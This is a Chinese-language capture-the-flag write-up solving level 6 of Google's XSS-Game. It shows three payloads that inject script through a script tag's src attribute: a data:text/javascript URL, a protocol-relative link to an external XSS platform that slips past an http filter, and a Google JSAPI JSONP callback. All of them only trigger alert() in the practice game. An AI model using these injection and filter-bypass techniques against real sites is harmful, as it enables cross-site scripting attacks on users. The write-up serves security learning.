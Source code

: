 ## [[XSS-Game](https://xss-game.appspot.com/)] [[Level-6 : Follow the 🐇](https://xss-game.appspot.com/level6)] [[解题报告](http://exp-blog.com/2019/02/15/pid-3322/)]

------

## 1. 解题方法一（题目 "BUG"）

明显注入点在 URL。

查看页面源码发现， 无论在 URL 输入什么都会实时回显到 script 标签的 src 属性里面：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/01.png)

即注入点是这样的： `<script src="注入点" ></script>`

要在 script 标签的 src 属性执行 js ，可以构造这样的 payload： `data:text/javascript,alert('exp')`

直接 pass。。最后一关简单到离谱。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/02.png)


## 2. 解题方法二（XSS 平台）

其实这么简单就突破了，可能是这题的 BUG。

因为我一开始没看题目的 Mission Objective 变成了这样：

**Find a way to make the application request an external file which will cause it to execute an alert().**

即作者期望我们利用 script 标签的 src 属性去调用其他站点的 恶意 js 脚本，再由该脚本回调当前网页 的 alert，估计作者也没想到可以被钻了空子。

------------

若按作者的思路解题，我们可以用 xss 平台做，例如： [http://xss.tf](http://xss.tf)

注册 xss 平台后，任意创建一个项目，然后配置项目源码，勾选最后的“自定义代码”，输入一个 JS 函数 `alert()` ，最后查看项目代码，会给出访问这个项目的 URL，如这里为：[http://xss.tf/IUa](http://xss.tf/IUa)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/03.png)

打开这个 xss 项目的 URL ： [http://xss.tf/IUa](http://xss.tf/IUa)

可以看见页面只打印了一个 JS 函数 `alert()` ，到这里我们构造这个 xss 平台的目的就完成了。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/04.png)

------------

### 2.1. 回调函数

回到挑战页面，前面已经知道注入点是这样的： `<script src="注入点" ></script>`

要从这里通过 xxs 平台回调 `alert()` 函数，只需要在 URL 末尾加上 `callback=alert`，即：

`<script src="http://xss.tf/gAk?callback=alert" ></script>`

回调原理大概是这样的：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/05.png)


------------

### 2.2. 验证绕过

但是直接注入 `http://xss.tf/gAk?callback=alert` 是无法成功的，

原因是题目对注入点做了正则校验，不允许输入以 http 或 https 开头的内容：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/06.png)

但是绕过的方式也很简单，直接删掉 `http:` 或 `https:` 即可，最终 payload 变成这样：

`//xss.tf/gAk?callback=alert`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/07.png)


在 web 网页中，以双斜杠 `//` 开头的 URL 写法有其特殊用途：

- 它会判断当前的页面协议是 http 还是 https 来决定请求 url 的协议
- 主要用于处理 \[网站使用的协议\] 和 \[网页中请求的外网资源\] 不一致的问题，达到无缝切换
- 这种写法在 CSS 很常见，如：`.omgomg { background: url(//exp-blog.com/imgs/exp.gif); }`


------------

## 3. 解题方法三（谷歌 jsapi）

查看 hits ，题目给出的一个提示是：`google.com/jsapi?callback=foo`

打开页面发现，google 会实时根据 `callback=foo` 的值构造一个 `foo` 函数

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/08.png)

因此可以构造这样的 payload ：`//www.google.com/jsapi?callback=alert`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/09.png)

这样就可以省去自己搭建 xss 平台的麻烦了，一样可以 pass ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/10.png)

------------

## 4. 闯关成功

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/11.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/12.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
